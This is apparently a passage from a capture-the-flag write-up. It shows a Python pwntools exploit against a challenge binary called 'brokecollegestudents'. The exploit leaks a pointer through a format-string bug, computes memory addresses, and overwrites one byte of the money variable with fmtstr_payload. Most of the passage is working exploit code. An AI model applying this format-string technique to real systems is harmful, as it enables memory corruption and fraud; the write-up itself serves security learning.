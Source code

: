 Then I had the idea, instead of writing the entire $10,000,000 we need to buy the flag, lets just write 1 byte into a significant enough position to increase our money. The next exploit looked like this:

```python
from pwn import *

host, port = "143.198.184.186", 5001

local = False

binary = context.binary = ELF('./brokecollegestudents')

if local:
    p = process('./brokecollegestudents')
else:
    p = remote(host,port)

ptrbaseoffset = 6445 # base is 6445 less than the leaked pointer
moneyoffset = 16412  # money offset is baseaddr+16412

# leak a pointer and calculate base address and money address
p.recvuntil(b'Choice: ')
p.sendline(b'1')
p.recvlines(8)
p.sendline(b'1')
p.recvuntil(b'CHOOSE: ')
p.sendline(b'1')
p.recvuntil(b'name: ')
p.sendline(b'%23$016llx')
p.recvlines(2)
leak = p.recvline().decode()[0:16]

base = int(leak,16)-6445
money = base+moneyoffset

log.info('leaked base address: %x' % base)
log.info('money location: %x' % money)

# write a bunch of money
# our fmt string is 6th on the stack
write = {money+3:0x10}
payload = fmtstr_payload(6,write)

p.recvuntil(b'Choice: ')
p.sendline(b'1')
p.recvlines(8)
p.sendline(b'1')
p.recvuntil(b'CHOOSE: ')
p.sendline(b'1')
p.recvuntil(b'name: ')
p.sendline(payload)
p.recvlines(3)
balance = p.recvline().decode().split()[2]
log.success("Money balance now: %s" % balance)
log.info("Now go on a shopping spree!!")
p.interactive()
```
